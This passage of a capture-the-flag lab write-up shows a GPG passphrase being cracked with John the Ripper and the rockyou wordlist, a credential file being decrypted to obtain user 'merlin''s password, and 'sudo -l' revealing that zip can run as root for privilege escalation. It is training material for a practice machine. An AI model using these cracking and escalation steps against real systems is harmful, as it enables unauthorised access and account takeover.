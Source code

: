 * At this stage, we can use ```john``` to crack the Hash : 
```console
root@kali# john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt Hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]        (tryhackme)
1g 0:00:00:00 DONE (2022-08-21 19:20) 8.333g/s 8933p/s 8933c/s 8933C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```                                                                                                       

* Let's now decrypt ```credential.pgp``` file by entering the ```passphrase``` JohnTheRipper cracked for us.
    * First, we need to ```import``` the ```tryhackme.gpg``` file into gpg :
    ```console
root@kali# gpg --import tryhackme.asc               
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
    ```
    * We can now decrypt the ```credential.pgp``` file using the cracked ```passphrase``` :
    ```console
root@kali# gpg --decrypt credential.pgp             
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:[REDACTED]  
    ```
* It looks like we have the ```credentials``` of the ```merlin``` user.
* Let's switch over to ```merlin``` and see if we can find any vector that will help us escalate our privileges.


## **<strong><font color="Brown">Vertical Privilege Escalation</font></strong>**
***
* Let's start by running ```sudo -l``` command to see what binaries can our user run with root privileges :
```console
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
